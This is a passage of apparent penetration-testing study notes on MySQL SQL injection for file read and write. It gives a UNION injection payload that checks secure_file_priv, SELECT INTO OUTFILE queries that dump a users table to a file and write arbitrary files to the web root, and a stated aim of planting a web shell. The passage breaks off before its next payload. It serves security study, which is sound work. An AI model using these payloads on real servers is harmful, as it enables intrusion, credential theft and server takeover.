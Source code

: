 `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM INFORMATION_SCHEMA.GLOBAL_VARIABLES WHERE variable_name="secure_file_priv"`

![](Images/Pasted%20image%2020240129194553.png)

if the value is empty, then we have read/write permissions to any location 

### SELECT INTO OUTFILE

`SELECT INTO OUTFILE` can be used to write data from select queries into files 

`SELECT * FROM users INTO OUTFILE '/tmp/credentials';`

it is possible to directly `SELECT` strings into files, which lets us write arbitrary files to the back-end server: 

`SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`

the string "this is a test" will be written to the newly created test.txt file  
note that the new file will be owned by the mysql user

note that advanced file exports use `FROM_BASE64("base64_data")` to write long/advanced files, including binary data

### Writing files through SQL injection 

`SELECT 'file written successfully' INTO OUTFILE '/var/www/html/proof.txt'`

to write a web shell, we will need to know the base web directory for the web server   
one way to find this is to use `LOAD_FILE()` to read the server configuration 

apache config = `/etc/apache2/apache2.conf`  
nginx config = `/etc/nginx/nginx.conf`  
IIS config = `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`  

we could also try to run a fuzzing scan to write files to different possible web roots using: 
- `/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt`
-  `/SecLists/Discovery/Web-Content/default-web-root-directory-windows.txt`

if none of the above works we can use server errors to try to find the web directory that way 

a sample `UNION` payload would be: 
